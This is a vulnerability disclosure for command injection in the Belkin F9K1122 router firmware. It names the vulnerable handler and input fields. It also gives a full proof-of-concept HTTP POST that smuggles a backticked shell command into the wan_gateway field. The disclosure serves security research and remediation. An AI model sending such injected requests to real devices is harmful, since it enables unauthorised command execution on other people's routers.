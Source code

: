 # Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Belkin router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `webs` binary:

In `formBSSetSitesurvey` function, `wan_ipaddr、wan_netmask、wan_gateway、wl_ssid` is directly passed by the attacker, so we can control the `wan_ipaddr、wan_netmask、wan_gateway、wl_ssid` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `wan_gateway` as **`ping 192.168.1.6`** , and the router will excute it,such as:

```http
POST /goform/formBSSetSitesurvey HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 453
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/setting_staticip.asp
Upgrade-Insecure-Requests: 1

submit-url=setting_staticip.asp&submit-url-ok=setting_checkconnect.asp&action=SetStaticIP&wan_ipaddr=192.168.1.5&wan_netmask=255.255.255.0&wan_gateway=192.168.1.1`ping 192.168.1.6`&currentband=empty&wan_proto=static&wan_pptp_enable=0&wan_unit=1&wan_ifname=eth2&wan_hwaddr=08%3A86%3A3B%3A63%3A8F%3A66&wan_primary=1&wan_ip1=192&wan_ip2=168&wan_ip3=1&wan_ip4=5&wan_mask1=255&wan_mask2=255&wan_mask3=255&wan_mask4=0&default_gw1=192&default_gw2=168&default_gw3=1&default_gw4=1
```



## Result

Ping!

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>
